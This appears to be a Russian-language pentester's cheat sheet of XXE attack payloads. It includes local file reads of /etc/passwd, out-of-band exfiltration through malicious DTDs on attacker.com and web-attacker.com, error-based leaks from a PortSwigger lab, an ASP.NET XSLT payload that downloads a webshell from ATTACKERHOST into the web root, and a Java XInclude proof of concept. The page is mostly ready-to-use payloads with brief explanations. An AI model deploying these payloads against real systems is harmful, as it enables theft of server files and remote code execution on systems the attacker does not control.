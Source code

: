 # Examples XXE

## Basic

1 Можем использовать объявленную сущность в теле XML (здесь через &)

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://evil.com/xxe"> ]>
<root>
    <data>&xxe;</data>
</root>
```

2 Можем использовать объявленную сущность как определение следующей сущности в Doctype (здесь через %).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://evil.com/xxe"> %xxe; ]>
<root></root>
```

## Include local file

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<root>
    <data>&xxe;</data>
</root>
```

Некоторые парсеры позволяют листить директории:&#x20;

```markup
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///Users/"> ]>
```

## http request

```markup
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://example.com/test"> %ext;
]>
<r></r>
```

```markup
<?xml version="1.0" ?>
<!DOCTYPE foo [
<!ENTITY % payload SYSTEM "file:///etc/">
<!ENTITY % dtd SYSTEM "ftp://example.com/poc2.txt">
%dtd;
%release;
]><foo>ehlo</foo>
```

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test SYSTEM "https://yandexsjknvdkjsdnvkjnskjvnskjd.ru/xxe">
```

## OOB+XXE

Эта техника (OOB - Out-of-Band) используется для отправки результата чтения локального файла

У себя (на attacker.com) раполагаем evil.dtd

```markup
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?collect=%file;'>">
%all;
```

Отправляем уязвимому веб-приложению

```markup
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<data>&send;</data>
```

TODO: переделать в oob на ftp сервер. Это полезно в том случае, если выводимый файл содержит переносы строк (тк они бьют http запрос)

### С PortSwigger

### 1 OOB -> External Server

Полезная нагрузка (malicious.dtd)

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

На уязвимом сервере

```markup
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

### 2 OOB via Error

Полезная нагрузка (malicious.dtd)

```markup
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

На уязвимом сервере

```markup
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

### 3 Сложный OOB

Это пример из сложной лабы Port Swigger

Для многих парсеров есть отличия в том, как они работают со внешними и локальными (из локальных файлов) сущностями. Исследователь подтянул локальный DTD-файл (например, в GNOME всегда есть файл `/usr/share/yelp/dtd/docbookx.dtd`). Затем переопределил сущность `ISOamso` и через OOB via Error вывел результат. Полная нагрузка:

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
	<!ENTITY % local_dtd SYSTEM "/usr/share/yelp/dtd/docbookx.dtd">
	<!ENTITY % ISOamso '
		<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
		<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
		&#x25;eval;
		&#x25;error;
	'>
	%local_dtd;
]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

## XXE -> RCE

на php просто, есть примеры в инете

на ASP.Net такой пэйлоад видел в статье — [https://blog.zsec.uk/out-of-band-xxe-2/amp/](https://blog.zsec.uk/out-of-band-xxe-2/amp/), на проекте не взлетел:

```markup
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://VICTIM.COM/pwned">
<msxsl:script language="C#" implements-prefix="user">
<![CDATA[
public string xml()
{
    System.Net.WebClient webClient = new System.Net.WebClient();
    webClient.DownloadFile("https://ATTACKERHOST/webshell.aspx",
                       @"c:\inetpub\wwwroot\zephrShell.aspx");

    return "Shell Uploaded Successfully @ /zephrShell.aspx";
}
]]>
</msxsl:script>
<xsl:template match="/">
<xsl:value-of select="user:xml()"/>
</xsl:template>
</xsl:stylesheet>
```

## XInclude

```markup
<?xml version='1.0' encoding="UTF-8"?>
<document xmlns:xi="http://www.w3.org/2001/XInclude">
  <p>Текст моего документа</p>
  <xi:include text="parse" href="copyright.xml"/>
</document>
```

Java PoC

```java
package com.company;

import javax.xml.parsers.SAXParser;
import javax.xml.parsers.SAXParserFactory;

import org.xml.sax.Attributes;
import org.xml.sax.SAXException;
import org.xml.sax.helpers.DefaultHandler;

public class Main {

    public static void test() {
        final String fileName = "test.xml";

        /* test.xml
        <Document xmlns="urn:iso:std:iso:20022:tech:xsd:pain.001.001.03" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xi="http://www.w3.org/2001/XInclude">
            <PHONEBOOK>
                <PERSON>
                    <NAME>
                        <MAIN_NAME>Noname person</MAIN_NAME>Joe Wang
                    </NAME>
                    <Nm xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="https://example.com" /></Nm>
                </PERSON>
            </PHONEBOOK>
        </Document>
        */

        try {
            SAXParserFactory factory = SAXParserFactory.newInstance();
            factory.setXIncludeAware(true);  // без этого не будет работать !!!
            factory.setNamespaceAware(true); // без этого не будет работать !!!
            factory.setFeature("http://apache.org/xml/features/xinclude", true); // без этого не будет работать !!!
            SAXParser saxParser = factory.newSAXParser();

            DefaultHandler handler = new DefaultHandler() {
                boolean name = false;
                // Метод вызывается когда SAXParser "натыкается" на начало тэга
                @Override
                public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
                    // Если тэг имеет имя NAME, то мы этот момент отмечаем - начался тэг NAME
                    if (qName.equalsIgnoreCase("Nm")) {
                        name = true;
                    }
                }

                // Метод вызывается когда SAXParser считывает текст между тэгами
                @Override
                public void characters(char ch[], int start, int length) throws SAXException {
                    // Если перед этим мы отметили, что имя тэга NAME - значит нам надо текст использовать.
                    if (name) {
                        System.out.println("Name: " + new String(ch, start, length));
                        name = false;
                    }
                }
            };

            // Стартуем разбор методом parse, которому передаем наследника от DefaultHandler, который будет вызываться в нужные моменты
            saxParser.parse(fileName, handler);
            System.out.println("Test");
        }
        catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
	// write your code here
        test();
        System.out.println("Test");
    }
}

```
